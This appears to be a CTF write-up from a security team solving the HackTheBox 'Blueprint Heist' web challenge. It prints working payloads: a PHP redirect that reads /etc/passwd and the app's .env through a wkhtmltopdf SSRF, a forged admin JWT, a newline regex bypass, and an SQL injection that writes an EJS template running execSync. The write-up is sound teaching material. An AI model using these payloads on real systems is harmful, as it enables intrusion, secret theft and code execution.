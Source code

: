 ```yaml
---
title: "Challenge, Train, Flag: Blueprint Heist"
summary: “Challenge, Train, Flag explores CTF challenges to enhance cybersecurity skills, focusing on exploiting vulnerabilities like SSRF, JWT forging, and SQL injection in real-world scenarios.”
date: 2024-12-08
tag:
    - Cybersecurity
    - CTF
    - SSRF
    - JWT
    - SQLInjection
    - WebSecurity
    - HackTheBox
    - NodeJS
---
```


# Challenge, Train, Flag: Blueprint Heist

At Atlansec, we are committed to CTFs as a key learning tool under the _learning by doing_ methodology. We believe that facing practical challenges is the best way to develop technical skills and foster creativity. With this section we want to spread the value of CTFs, share _writeups_ of challenges of a certain technical complexity and bring the community closer to a practical and technical approach to learning.

### What is a CTF?

Capture the Flag (CTF) competitions are cybersecurity challenges where participants tackle a variety of technical problems to find "flags," which are hidden markers proving successful completion of a task. CTFs simulate real-world scenarios in areas like cryptography, reverse engineering, web security, forensics, and binary exploitation, helping participants build essential cybersecurity skills.

CTFs aren't just competitions; they are a gateway to learning by solving. They teach participants how to think critically, debug complex systems, and adapt under pressure. Each challenge is a story, a puzzle, and a lesson rolled into one.

In this series, we'll explore notable CTF challenges, dive into their technical solutions, and highlight the skills they develop. Welcome to Challenge, Train, Flag!

## Key concepts

- **SSRF (Server-Side Request Forgery):** Technique that allows an attacker to force a server to make HTTP requests on their behalf. Depending on the context, it can be quite critical as it can allow an attacker to access resources within the target's internal network.

- **JSON Web Token (JWT):** An open standard for authenticating and securely transferring information using a token.

- **SQL Injection:** An attack that allows malicious SQL code to be injected into a query to manipulate the database query.

- **wkhtmltopdf:** Library for converting web content (HTML) to PDF.

## The challenge

This time we bring you a challenge from the HTB Business CTF 2024. The challenge is from the web category and although it is listed as easy on the HackTheBox platform, it is one of the most complex web challenges on the platform due to the number of steps that make up the solution.

In this challenge we are given the source code of a NodeJS application and access to a web service running the application.

### Understanding the Application Logic

The challenge starts with access to an application of the urban planning commission. When browsing, we notice that clicking on any of the links generates a POST request to the /download path. Let's review its implementation in the routes file:

```Javascript
router.post("/download", authMiddleware("guest"), (req, res, next) => {
    convertPdf(req, res, next);
});
```

Here we can see that the _convertPdf_ function is responsible for handling the logic of this path. Let's go on to examine its code:

```Javascript
async function convertPdf(req, res, next) {
    try {
        const { url } = req.body;

        if (!isUrl(url)) {
            return next(generateError(400, "Invalid URL"));
        }

        const pdfPath = await generatePdf(url);
        res.sendFile(pdfPath, { root: "." });
    } catch (error) {
        return next(generateError(500, error.message));
    }
}
```

After reading this, we can see that the function makes sure that the parameter it receives is a valid URL before passing it to the _generatePdf_ function. Let's look at the latter next:

```Javascript
async function generatePdf(urls) {
    const pdfFilename = generateRandomFilename();
    const pdfPath = `uploads/${pdfFilename}`;

    try {
        await generatePdfFromUrl(urls, pdfPath);
        return pdfPath;
    } catch (error) {
        throw new Error(`Error generating PDF: ${error.stack}`);
    }
}

async function generatePdfFromUrl(url, pdfPath) {
    return new Promise((resolve, reject) => {
        wkhtmltopdf(url, { output: pdfPath }, (err) => {
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

We note that the _generatePdfFromUrl_ function uses _wkhtmltopdf_ to convert the URL content to a PDF file. This flow opens the door to exploit a **SSRF vulnerability** in the library.

### SSRF to local file read on wkhtmltopdf

Using an attacker-controlled server, we can serve files on a web server to redirect the visitor to local file system locations, in this case converting the SSRF on the server into a way to read internal files such as /etc/passwd. To do this, we create a PHP file with the following content:

```php
<?php header('location:file:///etc/passwd'); ?>
```

By passing the URL of our server as a parameter to the /download path, the generated PDF will contain the contents of the /etc/passwd file of the server making the request.

![result pdf when request to /etc/passwd](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FZQtdU4mXr2tBi4QxRQWN%2Fimagen.png?alt=media&token=8ad9ee1c-663e-4193-8590-fa5d29a05340)

We then modify the PHP file to exfiltrate the application's .env file:

```php
<?php header('location:file:///app/.env'); ?>
```

![result pdf when request to /app/.env](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FRAlxHPUFMbqwzl2hPOfP%2Fimagen.png?alt=media&token=9c0d7a88-b46f-4d5a-9956-d7e23f77a99a)

### JWT Forging

With the key extracted from the .env file, we can sign valid JWT tokens. We use a tool like [JWT.io](https://jwt.io/) to generate a token with the administrator role:

```json
{
  "role": "admin"
}
```

![JWT edition](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2Fk7s7AKs1qYnCLf6jxVxv%2Fimagen.png?alt=media&token=167958e1-2dc9-49d1-99fe-5753b628c43c)

Using the token we have generated, we will make a request to the internal admin panel endpoint with the following structure:

```none
http://127.0.0.1:1337/admin?token=<JWT_admin>
```

In the generated PDF we can see the contents of the admin panel.  While this generates a screenshot of the admin panel, it only takes us halfway to our ultimate goal.

![screenshot of the admin panel](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FN6Qqr0Zla8nrsYfi3GqM%2Fimagen.png?alt=media&token=f96df24b-e38a-44d7-b03f-f5c5140f7a58)

### SQL injection to file upload

Analysing the rest of the application code, we discovered that the GraphQL endpoint is vulnerable to SQL injection in the _getDataByName_ query. However, a robust regular expression is used to filter out malicious entries:

```Javascript
function detectSqli(query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/\?]/;
    return pattern.test(query);
}
```

A more detailed analysis shows that the expression is not multiline, which allows us to bypass it with a line break (`n`).

- No line break.

![regex matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FiHyLuPjjbRXIy5NUVxhq%2Fimagen.png?alt=media&token=89160232-b5af-47d0-a3ae-076da913d2fa)

- With a line break.

![regex not matching with string](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FR3kn9C6HhP3Ignbv4dgV%2Fimagen.png?alt=media&token=f2b092a6-503c-4e23-8299-c88c0ecd15ce)

Once this is discovered, we can build a payload for an SQL injection that writes a malicious EJS file to the 404 error path, since the application does not have a path to handle this type of error.

The payload we build should be similar to the following, where we include an EJS template that reads the flag by executing the target binary.

```SQL
' UNION SELECT 1, '<p><%= process.mainModule.require("child_process").execSync("/readflag") %></p>', 2, 3 INTO OUTFILE '/app/views/errors/404.ejs'--
```

With the malicious file in place, we access a non-existent path to throw a 404 error and execute the /readflag command. This gives us access to the contents of the flag.

![Flag](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F3TmAXjiAoEmMnxPV1JDL%2Fuploads%2FeTAq53W6y62vYQRnsHPy%2Fimagen.png?alt=media&token=202cab2a-4da9-4d96-bf7f-8971475f569b)
